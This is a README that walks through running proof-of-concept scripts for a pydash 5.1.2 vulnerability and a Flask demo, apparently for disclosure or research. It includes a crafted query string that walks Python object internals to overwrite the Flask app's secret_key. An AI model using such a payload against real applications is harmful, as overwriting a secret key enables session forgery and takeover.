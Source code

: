 
# Instructions for pydash 5.1.2 and flask PoC

**Prerequisites:** python3.x, pip

## Setup vulnerable python package

* **Create a python virtualenv if you don't want to taint your python installation with vulnerable packages, for example:**
    1. python3 -m venv env
    2. source /env/bin/activate
    3. pip install -r requirements.txt 

## pydash 5.1.2 PoC

* **Run the proof of concept**
    1. python3 pydash_poc_5.1.2.py

## flask PoC

* **Run flask proof of concept**
    1. flask --debug --app flask_poc.py run
    2. Open browser and enter following url: <http://127.0.0.1:5000/?path=__class__.__init__.__globals__.app.secret_key&val='1337'>
    3. result will be printed in the terminal window running the flask server

## Latest pydash Poc
* **Exit the previously used virtualenv**
* **Install latest pydash release**
    1. pip install pydash
* **Run the PoC**
    1. python3 pydash_poc_latest.py
